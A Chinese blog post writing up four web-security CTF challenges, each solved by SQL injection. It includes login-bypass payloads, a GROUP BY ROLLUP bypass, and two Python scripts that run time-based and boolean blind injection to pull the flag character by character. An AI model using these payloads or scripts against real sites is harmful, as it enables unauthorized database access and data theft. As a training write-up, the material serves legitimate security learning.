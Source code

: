 <!--yml
category: 未分类
date: 2022-04-26 14:44:09
-->

# CTF实验吧-WEB专题-1_77458的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_18661257/article/details/53739543](https://blog.csdn.net/qq_18661257/article/details/53739543)

## **1.登陆一下好吗??**

![这里写图片描述](img/20e3f75a7b5a4d0dd02c183a0ee89092.png)

> 题解

抓住sql语句的性质，构造万能密码，可以使`t'='`来突破题目的限制，原因如下：
一般的验证SQL语句为:
`select * from user where username='xxx' and password='xxx'`
当我们我们的表单提交`t'='`时，SQL语句就变成了
`select * from user where username='t'='' and password='t'=''`
很明显，username=’t’会返回false,然后等于”就返回了true,同样的道理，password也一样
如此就能拿到flag了

* * *

## **2.who are you?**

![这里写图片描述](img/d6a245fd60a7c8ad2173105c1ac29e06.png)

> 题解

直接写个’，发现没有被过滤，如下图
![这里写图片描述](img/fe0e2774ce002c273bc5f3d5088d0923.png)

然后试了试其他的，发现过滤掉了逗号后面，也就是说逗号是不能用，对于题目的提示，说会记录到db里面去，所以后台程序可能用的是insert语句，没有使用select语句，所以寻常的注入不起作用
所以我们通过sleep进行测试
![这里写图片描述](img/1fd88ba74ea13268f03a7cb2891eb30b.png)
发现对方服务器发回数据的时间间隔相差大概五秒，所以可以使用sleep来进行盲注，这里需要注意的是sleep必须和and绑定，否则不执行语句，因为and的优先级比or高，当有and的时候会执行sleep语句，当没有的时候只会执行or左边的语句

盲注的话，首先我们要判断是否存在flag表以及他的列名也是用上述类似的方法，如果存在直接用python进行延时判断，就可以得到完整的flag

判断是否存在表flag如下图
![这里写图片描述](img/0b1020d0b9a688c5825aad896c25e6d6.png)
延时五秒表示存在flag表
然后判断是否存在列名flag，如下图
![这里写图片描述](img/d3363456d08648d94a49f3494cbb7ca0.png)

接下来就是写程序进行盲注了

```
 import urllib2
import time
import requests

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

const_str="abcdefghijklmnopqrstuvwxyz0123456789@_.{}-"

flag_str=""
for i in range(1,33):
    isflag = False
    for j in range(0,len(const_str)):
        sql="' or sleep(((select substring(flag from "+str(i)+" for 1) from flag)='"+const_str[j]+"')*5) and '1'='1"
        headers={
            "X-forwarded-for":sql
        }

        last = time.time()
        requests.get(url, headers=headers,timeout=10)
        now = time.time()
        if now - last > 5:
            flag_str += const_str[j]
            isflag = True
            print i,flag_str
            break
    if not isflag :
        print 'error'
        break
print flag_str 
```

* * *

## **3.因缺思汀的绕过**

![这里写图片描述](img/797ad33fb94116aa5a8533baeed51f14.png)

> 题解

通过查看网页代码源码我们发现了提示source.txt文件，所以毫不犹豫的打开这个文件，后台处理源代码基本就出来了，然后我们就需要思考如何绕过这个源代码设置的障碍。
从代码中我们可以看出，他过滤掉了绝大多数sql注入语句，用数组也会被pass掉，好尴尬呀，怎么办，虽然防护的很好，但是还有几个特别重要的sql语句他没有进行过滤，那就是group by,or,rollup[如果不知道这个语句的，可以百度看看]，终有一疏啊，哈哈哈
这里只提一下rollup的作用，他会根据某一个列进行组合，然后会产生null值，就是让最终的表中有多个null值，然而我们要利用的就是null==null，嘿

我们先根据代码进行一部分处理uname填写如下语句
`' or 1 limit 1--`
或者(–后有空格)
`' or 1 limit 1#`
#(%23url编码不起作用，不知道原因)

可以得到亦可赛艇，接着我们需要让key和pwd相等，用rollup就可以了
构造语句如下即可
![这里写图片描述](img/074eddf99b6842011ac0ba72628ed83f.png)

* * *

## **4.简单的sql注入之3**

![这里写图片描述](img/afd636eabbe65cff29ce86e9f4533337.png)

> 题解

通过简单的注入测试可以知道`' or 1--`可以通过，所以存在注入了，但是不管是通过information_schema还是其他途径都无法直接得到flag，所以我们只能用盲注了，哎，思路和博文中who are you基本是一样的，但是不是用延时，因为延时他会返回Don’t，所以我们根据题目的特性，当存在某个之目的时候返回hello我们只要检测返回的页面有没有hello就可以了，代码如下：

```
 import time
import requests

url = "http://ctf5.shiyanbar.com/web/index_3.php?id="

const_str="qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM0123456789@_{}"

flag_str=""

for i in range(1,27):
    isflag = False
    for j in range(0, len(const_str)):
        sql="' or ascii((select substring(flag from "+str(i)+" for 1) from flag))='"+str(ord(const_str[j]));
        res=requests.get(url+sql, timeout=20)

        if res.text.find('Hello') >= 0:
            flag_str+= const_str[j]
            print i, flag_str
            isflag = True
            break
    if not isflag:
        print 'error'
        break
print flag_str 
```

其中用到的ascii是将ASCII字符转换为整数，substring则是求子串了，好像substr也可以用，大家可以自己试试。
在代码中有个猜测代码长度，可以在进行代码盲注之前就判断好，通过二分方法，也可以直接用代码，因为当超过flag字符的时候，数据库会报错，如此通过判断有没有报错自动停止就可以了，这样flag轻松拿到。

呼，只写了四个，每天四个，还有很多要写呀，努力，干巴得！